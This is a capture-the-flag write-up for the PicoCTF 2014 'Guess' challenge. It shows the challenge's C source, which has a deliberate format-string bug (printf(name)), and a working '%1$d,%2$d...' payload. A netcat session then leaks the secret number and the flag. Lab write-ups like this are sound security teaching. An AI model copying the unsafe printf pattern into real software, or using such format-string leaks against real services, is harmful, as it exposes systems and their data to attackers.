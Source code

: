 # Pico-CTF 2014: Guess

**Category:** Binary Exploitation
**Points:** 75
**Total Solves:** Not Available
## Problem Description:
[//]: # (Description of your problem. For eg use below description as a template)
[//]: # (> This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! > The binary can be found at /home/format/ on the shell server. The source can be found [here](format.c).)

```
#include <stdio.h>
#include <stdlib.h>

char *flag = "~~FLAG~~";

void main(){
    int secret, guess;
    char name[32];
    long seed;

    FILE *f = fopen("/dev/urandom", "rb");
    fread(&secret, sizeof(int), 1, f);
    fclose(f);

    printf("Hello! What is your name?\n");
    fgets(name, sizeof(name), stdin);

    printf("Welcome to the guessing game, ");
    printf(name);
    printf("\nI generated a random 32-bit number.\nYou have a 1 in 2^32 chance of guessing it. Good luck.\n");

    printf("What is your guess?\n");
    scanf("%d", &guess);

    if(guess == secret){
        printf("Wow! You guessed it!\n");
        printf("Your flag is: %s\n", flag);
    }else{
        printf("Hah! I knew you wouldn't get it.\n");
    }
}
// "aa%21$c,%$c,%19$c,%20$c", "%1$d,%2$d,%3$d,%4$d,%5$d,%6$d"
```

> This program requires you to guess a random 32-bit number! Sounds difficult, right? There is a server running at vuln2014.picoctf.com:4546, and the source can be found [here](guess.c).

## Write-up
[//]: # (> Your write up goes here.)
> This program has format string vulnerability at line `printf(name);`. If we give format specifiers input, then while printing printf will start popping up the varaible of type specified in format string, from stack. Suppose if we give %d as input then printf will print a integer from stack. Using this exploit we can pop out the value of variable `secret`. 
To print multiple integers form stack we can use give format string as %$1d, it will print the 1st integer from stack. We can give input as `%1$d,%2$d,%3$d,%4$d,%5$d,%6$d`.
From output of this we can guess the value of secret in few attempts.

```bash
nc vuln2014.picoctf.com 4546
Hello! What is your name?
%1$d,%2$d,%3$d,%4$d,%5$d,%6$d
Welcome to the guessing game, 32,-142865376,158580744,-1264074245,47,158580744

I generated a random 32-bit number.
You have a 1 in 2^32 chance of guessing it. Good luck.
What is your guess?
-1264074245
Wow! You guessed it!
Your flag is: leak_the_seakret
```

> Flag is **leak_the_seakret**

## Other write-ups and resources

* None
